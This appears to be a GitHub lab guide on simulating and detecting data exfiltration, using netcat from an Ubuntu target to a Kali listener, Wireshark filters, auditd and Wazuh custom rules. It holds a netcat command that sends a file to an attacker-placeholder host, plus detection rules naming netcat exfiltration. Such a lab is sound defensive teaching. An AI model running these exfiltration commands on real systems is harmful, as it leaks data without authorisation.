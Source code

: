 # Data Exfiltration Detection 

Data exfiltration detection, which is a classic scenario in threat hunting and SOC operations. Since you have Ubuntu as the target machine, Kali Linux (for simulating attacks), and Wazuh SIEM, here's a step-by-step practical guide to simulate and detect data exfiltration.

# 🎯 Objective
Simulate an attacker exfiltrating data from the Ubuntu target to Kali Linux (acting as a remote server), and detect the behavior using network logs, Wireshark, and Wazuh.

**🧰 Tools Used**

**Netcat (nc)** – for file transfer

**Wireshark** – to capture and analyze packets

**Wazuh** – to monitor logs and generate alerts

# Step-by-Step Lab Simulation
 **Step 1: Prepare File to Exfiltrate (on Ubuntu)**
 
  Create a dummy sensitive file:

    echo "Top Secret Data - Do Not Share" > ~/secret.txt

**Step 2: Start Netcat Listener (on Kali Linux)**

Choose a non-standard port (e.g., 4444):

    nc -lvp 4444 > received_data.txt

Step 3: Transfer File from Ubuntu (simulate exfiltration)

    nc <kali-ip> 4444 < ~/secret.txt

This sends secret.txt from Ubuntu to Kali.

**Step 4: Capture the Exfiltration with Wireshark (on Ubuntu or Kali)**

Start Wireshark on the correct interface.

    Apply filter: tcp.port == 4444

Observe the transfer of secret.txt content.

**Step 5: Detect with Wazuh SIEM**

  **Option A: Enable Sysmon for Linux (advanced logging)**

   Use Wazuh's Syscollector or Auditd to monitor:

-> Process execution (nc)

-> Network connections

**Option B: Use auditd rules to monitor netcat or large outbound traffic
Add auditd rule (on Ubuntu):**

    sudo auditctl -a always,exit -F arch=b64 -S connect -F dir=out -k netcat_exfil

Ensure **/var/log/audit/audit.log** is being monitored by Wazuh:

In **/var/ossec/etc/ossec.conf:**

    xml
    
    <localfile>
      <log_format>audit</log_format>
      <location>/var/log/audit/audit.log</location>
    </localfile>

**Restart Wazuh agent:**

    sudo systemctl restart wazuh-agent

📜 Step 6: Wazuh Custom Rule for Data Exfiltration
On the Wazuh manager:

    sudo nano /var/ossec/etc/rules/local_rules.xml

**Example Rule:**

    xml
    
    <group name="exfiltration,netcat,suspicious">
      <rule id="100200" level="10">
        <decoded_as>json</decoded_as>
        <field name="process.name">nc</field>
        <description>Potential data exfiltration using Netcat</description>
        <mitre>
          <id>T1041</id> <!-- Exfiltration Over C2 Channel -->
          <id>T1048</id> <!-- Exfiltration Over Alternative Protocol -->
        </mitre>
      </rule>
    
      <rule id="100201" level="12">
        <decoded_as>json</decoded_as>
        <field name="destination.port">4444</field>
        <description>Outbound connection on non-standard port - possible exfiltration</description>
        <mitre>
          <id>T1041</id>
        </mitre>
      </rule>
    </group>

**Restart the Wazuh manager:**

    sudo systemctl restart wazuh-manager

**Step 7: Observe in Wazuh Dashboard**

Look for alerts with Rule ID 100200 or 100201.

Filter by command: nc



